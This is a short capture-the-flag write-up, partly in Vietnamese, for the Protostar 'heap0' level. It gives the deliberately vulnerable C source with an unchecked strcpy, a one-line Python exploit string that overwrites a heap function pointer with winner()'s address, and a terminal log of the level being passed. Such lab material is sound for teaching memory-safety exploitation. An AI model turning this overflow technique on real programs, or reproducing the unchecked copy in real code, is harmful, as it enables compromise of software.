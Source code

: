 # **heap0**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);
  
  f->fp();

}
```

## Vulnerability
strcpy()
## Exploit
- Phân tích main:

<img src="pictures/main_analysis.png">

- Khai thác: overflow biến d để ghi đè địa chỉ winner() thay cho hàm nowinnner()
- Địa chỉ hàm winner(): 0x08048464
- Attack-string:
```
python -c 'print "A"*(0x50 - 0x08) + "\x64\x84\x04\x08"'
```
- Kết quả:
```
user@protostar:/opt/protostar/bin$ ./heap0 $(python -c 'print "A"*(0x50 - 0x08) + "\x64\x84\x04\x08"')
data is at 0x804a008, fp is at 0x804a050
level passed
```

# References